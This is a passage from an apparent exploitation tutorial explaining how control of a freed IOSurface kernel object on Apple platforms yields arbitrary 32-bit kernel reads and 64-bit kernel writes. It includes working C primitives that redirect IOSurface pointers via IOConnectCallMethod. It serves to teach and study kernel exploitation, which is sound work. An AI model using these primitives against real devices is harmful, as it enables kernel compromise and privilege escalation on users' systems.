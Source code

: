 ### Achieving Kernel Read/Write with IOSurface

After achieving control over an IOSurface object in kernel memory (mapped to a freed physical page accessible from userspace), we can use it for **arbitrary kernel read and write operations**.

**Key Fields in IOSurface**

The IOSurface object has two crucial fields:

1. **Use Count Pointer**: Allows a **32-bit read**.
2. **Indexed Timestamp Pointer**: Allows a **64-bit write**.

By overwriting these pointers, we redirect them to arbitrary addresses in kernel memory, enabling read/write capabilities.

#### 32-Bit Kernel Read

To perform a read:

1. Overwrite the **use count pointer** to point to the target address minus a 0x14-byte offset.
2. Use the `get_use_count` method to read the value at that address.

```c
uint32_t get_use_count(io_connect_t client, uint32_t surfaceID) {
    uint64_t args[1] = {surfaceID};
    uint32_t size = 1;
    uint64_t out = 0;
    IOConnectCallMethod(client, 16, args, 1, 0, 0, &out, &size, 0, 0);
    return (uint32_t)out;
}

uint32_t iosurface_kread32(uint64_t addr) {
    uint64_t orig = iosurface_get_use_count_pointer(info.object);
    iosurface_set_use_count_pointer(info.object, addr - 0x14); // Offset by 0x14
    uint32_t value = get_use_count(info.client, info.surface);
    iosurface_set_use_count_pointer(info.object, orig);
    return value;
}
```

#### 64-Bit Kernel Write

To perform a write:

1. Overwrite the **indexed timestamp pointer** to the target address.
2. Use the `set_indexed_timestamp` method to write a 64-bit value.

```c
void set_indexed_timestamp(io_connect_t client, uint32_t surfaceID, uint64_t value) {
    uint64_t args[3] = {surfaceID, 0, value};
    IOConnectCallMethod(client, 33, args, 3, 0, 0, 0, 0, 0, 0);
}

void iosurface_kwrite64(uint64_t addr, uint64_t value) {
    uint64_t orig = iosurface_get_indexed_timestamp_pointer(info.object);
    iosurface_set_indexed_timestamp_pointer(info.object, addr);
    set_indexed_timestamp(info.client, info.surface, value);
    iosurface_set_indexed_timestamp_pointer(info.object, orig);
}
```
